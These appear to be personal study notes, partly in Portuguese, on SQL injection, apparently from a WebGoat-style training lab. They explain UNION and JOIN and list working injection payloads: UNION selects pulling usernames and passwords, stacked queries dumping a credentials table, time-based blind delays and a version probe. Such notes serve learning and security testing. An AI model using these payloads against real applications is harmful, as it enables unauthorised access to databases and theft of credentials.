 ### Union

The Union operator is used, to combine the results of two or more SELECT Statements.

Rules to keep in mind, when working with a UNION:

    The number of columns selected in each statement must be the same.

    The datatype of the first column in the first SELECT statement, must match the datatype of the first column in the second (third, fourth, …​) SELECT Statement. The Same applies to all other columns.

SELECT first_name FROM user_system_data UNION SELECT login_count FROM user_data;

The UNION ALL Syntax also allows duplicate Values.

para uma injeção de código ser altamente funcional, utilizar o Union acaba sendo a melhor solução, dado que ela proverá um único resultado para queries diferentes
algo que stacked queries não funcionaria, dado que normalmente o código da aplicação espera somente um resultado e o outro, proveniente da query stacked (query empilhada, que pode ser realizada por meio do ";" finalizando a primeira query e continuando com a segunda query normalmente) seria totalmente ignorado

Exmplos:

    ' union select user, password from table users;--+ 
    ') union select banner from v$version;--+ /*oracle*/    '
    ') union select @@version;--+ /*mysql*/    


### Join

The Join operator is used to combine rows from two ore more tables, based on a related column

Solving the next exercise:

    asd'; select * from user_system_data; -- '
    

    t'; select first_name, last_name from user_data where first_name = 'Dave' union all select user_name, password from user_system_data where user_name = 'dave'; -- 

## Manual

### Blind sqlinjection

payload|
 WAITFOR DELAY '0:0:10'
 
 BENCHMARK() or sleep(10)


Getting the version of the database:

**payloads:** 
       
     ' and select substr(@@version,1,1)=4 --+  /*if the first caracter of the database version is 4, then the query will execute*/
     
    
## Exploiting the database
  
